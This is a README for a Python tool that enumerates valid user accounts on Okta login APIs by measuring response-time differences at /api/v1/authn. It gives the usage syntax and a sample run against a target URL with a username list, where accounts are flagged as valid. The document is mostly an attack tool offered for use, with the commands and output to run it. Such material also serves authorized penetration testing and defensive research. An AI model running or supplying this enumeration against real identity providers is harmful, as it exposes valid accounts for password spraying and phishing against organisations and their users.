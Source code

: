 # OKTASideChannelAttack
OKTA side channel attack to enumerate users

# Usage
```
$ python okta.py https://target.com/api/v1/authn
OKTA Side Channel User Enumeration
Mr.Un1k0d3r RingZer0 Team 2017


Usage: python okta.py [url] [valid_user] [path] [delay]

        Url        Full url to the authn API (/api/v1/authn)
        Valid User Valid user to benchmark the delay
        Path       Path to a list of username
        Delay      Maximum delay difference around 0.010 should be good
```

```
$ python okta.py https://target.com/api/v1/authn ringzer0@team.com users.txt 0.010
OKTA Side Channel User Enumeration
Mr.Un1k0d3r RingZer0 Team 2017

[+] Valid user benchmark is 0.265012
[+] Everything slower than 0.255012 will be considered valid
       donald@team.com is valid
       bobby@team.com is valid
```

# Credit
Mr.Un1k0d3r RingZer0 Team
